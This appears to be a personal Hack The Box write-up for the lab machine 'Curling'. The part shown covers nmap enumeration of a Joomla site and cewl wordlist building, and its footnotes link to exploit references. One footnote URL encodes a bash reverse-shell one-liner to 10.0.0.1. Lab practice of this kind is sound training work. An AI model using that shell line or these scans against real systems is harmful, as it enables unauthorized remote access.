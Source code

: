 # 📦 HTB | curling

Tags: #📦
Related to: 
See also: [[nmap]], [[cewl]], [[joomscan]], [[tee]], [[base64]], [[burpsuite]], [[wfuzz]], [[PHP]], [[bash]], [[python]], [[netcat ncat nc]], [[curl]], [[dev shm]], [[xxd]], [[file]], [[bzcat]], [[zcat]], [[tar]], [[gzip]], [[bzip2]], [[wget]], [[pspy]], [[rlwrap]], [[stty]], [[watch]], [[cron]] ,[[crontab]], [[powershell]], [[cyberchef]]
Previous: [[01 HTB/HTB]]

- [x] official walkthrough
- [x] ippsec

## Enumeration

### nmap default script and version scan

	nmap -sC -sV -oA nmap/curling 10.129.171.59
	
```shell-session
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 13:57 EDT
Nmap scan report for 10.129.171.59
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.99 seconds
```

### View website

	firefox 10.129.171.59	// Website title is "CewlCurlingSite!"

### Crawl website with cewl and generate custom wordlist

	cewl -w cewl.out 10.129.171.59

### Review website source code

Joomla! CMS detected by nmap:
`<meta name="generator" content="Joomla! - Open Source Content Management" />`


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency